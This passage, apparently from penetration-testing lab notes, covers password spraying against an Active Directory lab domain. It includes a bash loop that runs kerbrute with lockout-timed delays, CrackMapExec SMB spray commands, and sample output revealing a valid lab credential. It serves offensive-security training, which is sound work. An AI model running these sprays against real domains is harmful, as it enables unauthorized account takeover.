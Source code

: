 ### 🔄 **Multiple Password Spraying**
```bash
#!/bin/bash
# Multiple password spray with delays

PASSWORDS=("Welcome1" "Password1" "Company123" "Spring2024")
USERLIST="valid_users.txt"
DOMAIN="inlanefreight.local"
DC="172.16.5.5"
DELAY=35  # Minutes between sprays (based on lockout policy)

for password in "${PASSWORDS[@]}"; do
    echo "[$(date)] Testing password: $password"
    kerbrute passwordspray -d $DOMAIN --dc $DC $USERLIST $password -o "spray_$password.txt"
    
    # Check for successful logins
    if grep -q "VALID LOGIN" "spray_$password.txt"; then
        echo "[SUCCESS] Found valid credentials with password: $password"
        grep "VALID LOGIN" "spray_$password.txt"
    fi
    
    # Wait between attempts (except for last password)
    if [ "$password" != "${PASSWORDS[-1]}" ]; then
        echo "[$(date)] Waiting $DELAY minutes before next spray..."
        sleep ${DELAY}m
    fi
done
```

---

## 🔨 CrackMapExec Password Spraying

### 💪 **Key Features**
- **SMB-Based**: Uses SMB protocol for authentication
- **Bulk Testing**: Efficient user list processing
- **Success Filtering**: Easy identification of valid credentials
- **Immediate Validation**: Built-in credential verification

### 🚀 **Basic CrackMapExec Spraying**
```bash
# Single password against user list
crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +

# Multiple passwords (one at a time)
crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

### 📊 **Example Successful Output**
```
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```
